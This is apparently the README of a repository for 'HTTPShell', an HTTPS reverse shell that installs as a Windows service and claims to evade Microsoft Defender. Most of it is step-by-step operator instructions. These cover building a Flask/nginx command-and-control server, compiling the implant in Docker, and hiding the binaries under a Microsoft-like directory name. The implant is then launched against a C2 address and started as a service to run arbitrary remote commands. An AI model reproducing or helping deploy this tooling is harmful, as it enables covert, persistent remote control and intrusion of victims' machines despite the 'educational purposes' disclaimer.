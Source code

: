 # HTTPShell
HTTPS Reverse shell. Installed as a service on Windows. Bypasses Defender as of 01/15/2025.

FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY! 

Requirements and preperation:
------------------
1. NGINX on the host: https://nginx.org/en/linux_packages.html 
2. python3 and venv on the host: https://virtualenv.pypa.io/en/latest/installation.html 
3. Back up the existing nginx.conf file.
4. Move the nginx.conf file from this repo into /etc/nginx/nginx.conf.
5. Create a key and certificate:
It's generally recommended to avoid self-signed certificates. Only do this for using in a test environment.
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:4096 -nodes -sha256
```
6. Place the pem file in /etc/nginx/cert/server.pem.
7. Create a virtual environment for the C2 server:
```
mkdir controlServer
python3 -m venv controlServer
cd controlServer
source bin/activate
pip3 install colorama flask
flask run
```
8. Run the nginx server:
```
service nginx start
```
9. Build docker container with dockerfile (dockerfile must be in current directory):
```
docker build .
```
10. Enter the container (find it with "docker ps -a"; should be at the top of the list):
```
docker exec -ti [container_name] /bin/bash
```
11. Exfiltrate the compiled binaries located in project directorys "InstallService" and "ServiceBinary" target/x86_64-pc-windows-gnu/debug/. I'll use
```
python3 -m http.server 80
```
then wget from host. You can create another container with "docker run" and mount folders. The HTTP server with python is my preferred method. These binaries should be:
```
windows_service_wrapper.exe
windows_Win32_Temp.dll
windows_Win32_Temp.exe
```

Creating the service on your target and running:
--------
This is a generic method. Use your own loaders/stagers to get the binaries on the host and run these commands.

1. Create the directory (this can be changed in the source code):
```
mkdir C:\programdata\MicrosoftW
```
2. Move the binaries and DLL into this directory.
3. As Administrator or with privileges allowing creation of services (Server Operators can start/stop service. Can not create them):
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe [C2 IP] [C2 Port; recommend 443] [service Binary Name] [service Binary Name] [desired timeout in seconds]
```
Example:
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe 172.16.0.5 443 myService myService 60
```
"service Binary Name" must be the same. Feel free to edit the source for yourself if you want to change this behavior.

4. Start the service (reboot target or use Administrator/Server Operator):
```
sc.exe start [service Binary Name]

OR with powershell

Start-Service [service Binary Name]
```

You should see a prompt in the flask server terminal. It expects the following options:
```
"Enter initialization option: "

Enter "1" to begin typing arbitrary OS commands such as "dir" or "powershell Get-Service".
Enter "2" to end the session and tell the service to "sleep". It will sleep in seconds equal to what you put in the command line arguments above. So 60 seconds if using the example. After the time expires, the service will attempt to reconnect to your server.
```

When entering "1" to get the command, you should see the following:
```
Enter command: 
```

You can also enter "2" in this "Enter command: " state that will sleep like explained above.
